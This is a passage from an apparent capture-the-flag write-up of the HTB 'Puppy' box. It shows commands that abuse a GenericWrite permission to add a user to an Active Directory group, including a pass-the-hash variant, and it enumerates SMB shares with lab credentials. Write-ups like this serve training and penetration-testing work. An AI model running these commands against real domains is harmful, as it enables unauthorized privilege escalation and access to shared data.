 
    GenericWrite to a group allows you to directly modify group membership of the group.

    Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:

    net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

    It can also be done with pass-the-hash using [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

    pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"

    Finally, verify that the user was successfully added to the group:

    net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

    ---

## Initial Foothold

Trying to add a developer user, suspecting levi.james is not in the group yet..

And add the levi.james user using samba 'net' as suggested by Bloodhound

    net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB/levi.james%KingofAkron2025\!" -S DC.PUPPY.HTB

<figure>
<img src="Puppy-media/fd36175f3a5fc160edb0eb11ba5e826a5769c5ad.png"
class="wikilink" alt="Pastedimage20250925095043.png" />
<figcaption
aria-hidden="true">Pastedimage20250925095043.png</figcaption>
</figure>

Note! the '\\' in front of, to escape the '!' which is otherwise as special character messing up the string..

We now have READ on the DEV folder, Yay!

    nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -d 'PUPPY.HTB' --shares

<img src="Puppy-media/f05c28187b96f2f425e8f782539f8c5fc276ecbd.png"
class="wikilink" alt="Pastedimage20250925095407.png" />
\### Exploring DEV
Using SMBclient
